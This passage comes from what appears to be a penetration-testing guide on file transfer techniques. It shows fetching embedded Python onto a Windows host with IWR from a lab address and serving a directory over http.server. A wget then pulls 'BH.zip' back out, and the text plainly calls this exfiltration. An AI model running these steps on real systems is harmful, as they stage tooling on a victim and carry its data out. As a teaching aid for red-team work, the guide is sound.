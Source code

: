 ### 6. Python standalone package

Since version 3.7, Python comes as a standalone package and installation is not needed.

```console
inte@debian-pc:~$ wget https://www.python.org/ftp/python/3.13.2/python-3.13.2-embed-amd64.zip
```

```console
PS C:\Users\jdoe\Downloads> IWR 192.168.56.2:8000/python-3.13.2-embed-amd64.zip -o py.zip
PS C:\Users\jdoe\Downloads> Expand-Archive .\py.zip
PS C:\Users\jdoe\Downloads> cd .\py\
PS C:\Users\jdoe\Downloads\py> .\python.exe -m http.server 10000
```

The files can be exfiltrated from this directory:

```console
inte@debian-pc:~$ wget http://10.10.10.10:10000/BH.zip
```

### 7. Installing Python with MSIX file

TODO: <https://trustedsec.com/blog/operating-inside-the-interpreted-offensive-python>

While working on this document, I came across a similar, more extensive article: <https://github.com/egre55/ultimate-file-transfer-list>.  
It possesses more even more alternate techniques.
